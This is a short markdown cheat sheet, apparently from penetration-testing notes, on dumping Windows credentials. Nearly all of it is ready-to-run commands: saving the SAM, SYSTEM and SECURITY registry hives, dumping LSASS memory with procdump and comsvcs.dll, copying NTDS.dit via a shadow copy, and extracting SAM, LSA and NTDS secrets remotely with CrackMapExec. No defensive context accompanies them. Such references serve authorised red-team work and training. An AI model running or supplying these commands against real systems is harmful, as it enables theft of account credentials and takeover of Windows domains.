 # Dumping Credentials

## Local

### Dumping registry hives

```batch title="cmd.exe"
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

### Dumping LSASS memory

```batch title="cmd.exe"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

```batch title="cmd.exe (comsvcs.dll)"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

### Copying NTDS.dit

```powershell title="Create shadow copy and copy NTDS.dit"
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

## Remote

### CrackMapExec

You can also refer to [Commands Cheatsheet for CrackMapExec](/commands-cheatsheet/crackmapexec).

```bash
crackmapexec smb <ip> -u <user> -p <password> --sam
crackmapexec smb <ip> -u <user> -p <password> --lsa
crackmapexec smb <ip> -u <user> -p <password> --ntds
```